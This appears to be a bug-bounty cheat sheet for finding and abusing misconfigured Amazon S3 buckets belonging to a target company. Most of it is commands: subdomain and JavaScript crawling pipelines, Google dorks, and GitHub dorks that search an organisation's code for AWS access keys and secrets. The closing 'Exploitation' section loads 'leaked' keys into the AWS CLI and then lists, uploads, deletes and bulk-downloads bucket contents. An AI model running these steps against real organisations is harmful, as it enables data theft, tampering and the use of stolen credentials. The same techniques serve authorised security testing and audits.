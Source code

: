 

Bucket enumeration :
```bash
assetfinder --subs-only canva.com | httprobe | anew hosts; meg -d 1000 -v /; gf s3-buckets
ruby lazys3.rb <COMPANY> 
```


%c0 error character in url :
```bash
https://target.com/%c0
```

- Check wapplayzer extension
- Check the source code of application search for s3 in source code.
- Right-click on any image of the target application and open image in new tab. If the image URL looks like this: http://xyz.s3.amazonaws.com/images/b1.gif


some google dorking :
```bash
site:http://s3.amazonaws.com intitle:index.of.bucket
site:http://amazonaws.com inurl:".s3.amazonaws.com/"
site:.s3.amazonaws.com "Company"
intitle:index.of.bucket
site:http://s3.amazonaws.com intitle:Bucket loading
site:*.amazonaws.com inurl:index.html
Bucket Date Modified



site:s3.amazonaws.com "target.com"
site:*.s3.amazonaws.com "target.com"
site:s3-external-1.amazonaws.com "target.com"
site:s3.dualstack.us-east-1.amazonaws.com "target.com"
site:amazonaws.com inurl:s3.amazonaws.com 
site:s3.amazonaws.com intitle:"index of"  
site:s3.amazonaws.com inurl:".s3.amazonaws.com/"  
site:s3.amazonaws.com intitle:"index of" "bucket"

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"
```

auotmated tools and command :
https://github.com/Atharv834/S3BucketMisconf
https://github.com/gwen001/s3-buckets-finder
```bash
subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"
subfinder -d target.com -all -silent | nuclei -t /home/somx/.local/nuclei-templates/http/technologies/s3-detect.yaml

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u


cewl https://site.com/ -d 3 -w file.txt
s3scanner -bucket-file file.txt -enumerate -threads 10 | grep -aE 'AllUsers: \[.*(READ|WRITE|FULL).*]'


./cloud_enum.py -k somecompany -k somecompany.io -k blockchaindoohickey

```


github dorking :
```bash
org:target "amazonaws"
org:target "bucket_name" 
org:target "aws_access_key"
org:target "aws_access_key_id"
org:target "aws_key"
org:target "aws_secret"
org:target "aws_secret_key"
org:target "S3_BUCKET"
```


use online tools :
https://buckets.grayhatwarfare.com/
https://osint.sh/buckets/

chrome extension:
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en



Exploitation 
configure enviornment:
```bash
aws configure
#enter the leaked id
#enter the leadked api key
```


Buckets with "Full Control" permission allow file uploads and deletions which could lead to security risks.
```bash
aws s3api get-bucket-acl — bucket <bucket-name>


#read and write 
aws s3 ls s3://[bucketname] --no-sign-request
aws s3 cp file.txt s3://[bucketname] --no-sign-request
aws s3 rm s3://[bucketname]/file.txt --no-sign-request
aws s3 cp s3://[bucketname]/ ./ --recursive --no-sign-request
aws s3 mv <file> s3://<bucket-name>



```